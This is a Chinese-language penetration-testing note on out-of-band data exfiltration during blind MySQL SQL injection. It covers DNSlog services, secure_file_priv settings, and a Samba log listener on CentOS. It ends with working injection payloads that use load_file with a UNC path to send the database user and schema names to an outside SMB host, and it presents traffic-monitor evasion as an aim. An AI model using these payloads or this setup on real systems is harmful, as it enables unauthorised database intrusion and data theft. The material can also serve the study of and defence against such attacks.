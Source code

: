 - 概念:如果SQL注入仅能使用**时间盲注**，可以使用**OOB(out of band)**,将sql语句执行的结果以数据的形式外带出来
- 条件:`Windows`操作系统、`mysql`的全局变量`secure_file_priv`不为`null`
- dnslog平台

| **网址**               | 介绍                          |
| ---------------------- | ----------------------------- |
| http://dnslog.cn/      | 仅支持DNS数据外带             |
| http://eyes.sh/        | 支持DNS和HTTP两种数据外带方式 |
| Burpsuite Collaborator | 支持DNS和HTTP两种数据外带方式 |
| ceye.io                | ..........                    |

- 应用场景

| 方式                                  | 简介                  |
| ------------------------------------- | --------------------- |
| secure_file_priv                      | 拥有读写权力          |
| secure_file_priv=""                   | 可以读取任何目录      |
| secure_file_priv='/var/www/html'      | 可以读取指定文件      |
| secure_file_priv=null                 | 不能加载文件          |
| show global variables like '%secure%' | 查看mysql是否有写限制 |

- 有写限制，则打开mysql的配置文件`my.ini`，在`mysqld`一栏添加 `secure_file_priv=""`

- DNS数据外带:

- 在极限条件**(内网机器不出网，支持**dns出网**)，**61长度限制，不支持敏感符号(@#$%)，外带数据需要转码，规避流量监测设备

- SMB数据外带:`默认支持TCP/UDP出网方式时可用，无长度限制和符号限制`，规避流量监测设备

- ```liunx
  //centos7上安装SMB服务
  
  1. 安装smb服务
  yum install samba -y
  2. 修改配置文件
  vim/etc/samba/smb.conf
  3. 修改samba日志路径
  /var/log/samba/log.smbd
  4. 利用实时查看日志并匹配结果
  tail -f /var/log/samba/log.smbd | grep "failed to find service"
  ```

- payload

- ```sql
  1' and load_file(concat('\\\\192.168.172.130\\',(select user()),'t'))%23
  1' and load_file(concat('\\\\192.168.172.130\\',(select
  group_concat(schema_name) from information_schema.schemata),'t'))%23
  ```
